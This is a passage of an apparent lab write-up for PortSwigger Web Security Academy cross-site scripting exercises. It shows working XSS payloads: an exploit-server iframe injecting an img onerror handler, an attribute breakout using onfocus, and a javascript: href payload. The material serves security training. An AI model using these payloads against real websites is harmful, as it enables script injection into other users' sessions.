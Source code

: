 The vulnerability is located in the above code snippet and to exploit it you can utilise the exploit-server to load an iframe of the victim website like below:

`<iframe src="https://0af3004103f96251c236991f005700f9.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function. 

While the angle brackets are encoded it is still possible to pop an alert by using the following payload:

`test123" onfocus="alert(1)`

This is because this leads to legitmate syntax in the application code below:



`<input type="text" placeholder="Search the blog..." name="search" value="test123" onfocus="alert(1)">`


## Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

Based on the information provided we can be relatively and the code below we can make a guess that the vulnerability is in the below code where the `href` tag is.

```
</section>
<section class="comment">
<p>
<img src="/resources/images/avatarDefault.svg" class="avatar">                            
<a id="author" href="https://www.test.com">testUser</a> | 20 December 2022
</p>
<p>test</p>
<p></p>
</section>
```

using the `javascript:alert(1)` payload we are able to execute JS within the href tag once the link is clicked.

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function. 
